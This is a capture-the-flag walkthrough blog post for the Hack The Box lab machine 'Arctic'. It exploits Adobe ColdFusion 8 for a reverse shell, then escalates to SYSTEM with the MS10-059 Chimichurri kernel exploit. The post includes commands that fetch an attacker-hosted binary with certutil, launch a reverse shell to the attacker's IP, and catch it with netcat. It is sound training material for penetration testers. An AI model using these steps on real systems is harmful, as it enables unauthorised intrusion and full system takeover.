 # Hack The Box Arctic - Walkthrough

Welcome to the first walkthrough on this blog - Today we will focus on Arctic - a Windows Box that will test your methodology and gives you a chance to grow as a penetration tester / ethical hacker. 

The way I approach CTF machines is very much a go to grow mentality. When I started 6 months ago, I did not know how to collect the necessary information to enumerate, let alone compromise any machine/environment. Trial and error is the best friend during this journey and I will share my errors with you, so you don't have to necessarily make all the same mistakes I did. 

# Mindset
Your mental model is the most important thing you potentially don't have yet but might need to develop. 
It is about abstracting the things you want to explore - e.g. if you find a webserver and that one is also a mailserver in your head you could create a mental model of the attack surface - what can you try, which possibilities for compromise are you aware of and how can you exploit these potentially. 
Follow your methodology, it is the strongest supporter for you. 

if you want to follow my methodology, feel free to copy this this template: 
https://maikroservice.notion.site/CTF-TEMPLATE-1d8ada6a7df441e9a5976e51c1d74fac

## Ping
The first thing I normally do is to check the ICMP response by pinging the box. The result you receive back will show potentially valuable information e.g. the TTL (time to live), if this is around 127 it is a windows box most likely, while numbers around 64 indicate a linux based machine.
```bash
ping 10.10.10.11
``` 

This box does not respond to ping - *Windows boxes sometimes don't respond to ping unless it is enabled AFAIK, so probably this is the reason why we do not get a response here.*

## Port Scan
Next up is the classical port scan, you can use nmap or rustscan or other tools to identify open ports. This scan is usually done in an incremental manner, nmap scans the top 1000 ports by default and with the flags used below will enumerate Versions (-sV) and run default scripts (-sC), these two can be combined to -sCV. 
T4 indicates the speed with which the scan is conducted, it goes from T1 (slow) to T5 (fast).
Since the box does not respond to ping we use the -Pn option to skip the host discovery part of the scan. 
Finally, the output should be saved to a file in a "normal" format and this is achieved by using -oN followed by the file name - I usually use \*.initial for the top 1000 scan, \*.full for the full 65535 TCP ports and \*.udp for UDP scans. 

```bash
nmap -sCV -T4 -Pn 10.10.10.11 -oN arctic.initial
``` 

We get back a result with three open ports, two out of those are fairly common (135 & 49154, both associated with Windows remote procedure call - RPC) - from experience those are fairly rarely involved in exploits directly so lets first focus on **low hanging fruits**, namely port 8500. 
Whenever I see a uncommon port as the only source I open it in my browser via `<ip>:<port>` - so in this case `10.10.10.11:8500`, which reveals Adobe Coldfusion. Let's check if there are any known exploits for that. 

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-16 19:41 CEST
Nmap scan report for 10.10.10.11
Host is up (0.038s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
``` 

## Service Enumeration / Exploit 
We did find Adobe Coldfusion (v8) via the last step and use exploit-db.com to check for any known exploits. We find https://www.exploit-db.com/exploits/50057 and modify it to include our virtual network interface IP (usually accessible via `ifconfig tun0`).

```bash
lhost = "10.10.16.4"
lport = 4444
rhost = "10.10.10.11"
rport = 8500
```

Once we did that we can fire the exploit and catch a reverse shell as `tolis` and find the user.txt flag on their Desktop.
```
c:\Users\tolis\Desktop>dir
dir
user.txt
```

## Post Exploitation
on the machine we are greeted with a command prompt of a very old windows 

```
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.
```

This indicates a kernel exploit - we can check for some and in the end find MS10-059 or Chimichurri (https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059: Chimichurri/Compiled) as a suitable candidate. Lets download the precompiled binary and upload it to the target.

A suitable method to do that is a python webserver on your local machine, I use the python 3 version via:
```bash
python3 -m http.server 8080
```
and then 
```
certutil -urlcache -f http://<myMachineIP>:8080/chimichurri.exe
```
to download the file on the target machine. Typical folders where this can be executed are the Document/Download folder of the compromised user and the c:\windows\temp folder. 
Other options would be impacket's smbserver or smtp/sftp (we will explore the impacket-smbserver on the next machine)  

Back to Chimichurri - The exploit, when executed targets the Tracing Service of Windows (more details here: https://itm4n.github.io/chimichurri-reloaded/) and is able to elevate out privileges to NT Authority\System. 
Let's try that and provide our local IP and a port to catch the shell on -
```bash
Chimichurri.exe 10.10.14.18 9001
/Chimichurri/-->This exploit gives you a Local System shell 
/Chimichurri/-->Changing registry values...
/Chimichurri/-->Got SYSTEM token...
/Chimichurri/-->Running reverse shell...
/Chimichurri/-->Restoring default registry values...
```

We can now read the `root.txt` and have rooted the box. Good job. 
```
nc -lvnp 9001                          
listening on [any] 9001 ...            
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.11] 49440                          
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Users\tolis\AppData\Local\Temp>whoami
whoami
nt authority\system
C:\Users\Administrator\Desktop>dir
dir
root.txt
```